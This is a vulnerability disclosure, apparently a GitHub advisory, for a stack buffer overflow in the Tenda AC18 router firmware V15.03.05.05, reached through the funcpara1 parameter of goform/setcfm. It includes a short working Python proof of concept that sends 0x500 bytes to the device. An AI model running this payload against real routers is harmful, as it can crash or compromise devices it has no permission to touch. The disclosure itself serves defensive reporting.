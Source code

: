 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html
- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda A18 V15.03.05.05 has a stack overflow vulnerability located in the `formSetCfm` function. This function accepts the `funcpara1` parameter from a POST request and passes it to the `sub_4EA34` function. Within `sub_4EA34`, the array `s` is fixed at 64 bytes. However, since the user has control over the input of `funcpara1`, the statement `sprintf(s, "%s.list%d", a1, v11);` leads to a buffer overflow. The user-supplied `funcpara1` can exceed the capacity of the `s` array, thus triggering this security vulnerability.

![image-20240308165412900](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308165412900.png)

![image-20240308165426906](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308165426906.png)

![image-20240308165436222](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308165436222.png)

## POC

```python
import requests as re

s = re.Session()
url_base = 'http://192.168.84.101/'

# Send payload
url = url_base + 'goform/setcfm'
data = {
        'funcname': 'save_list_data', 
        'funcpara1': b'a'*0x500, 
        'funcpara2':'aaaaaa'
}

res = re.post(url, data=data)
```

![image-20240308165514005](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308165514005.png)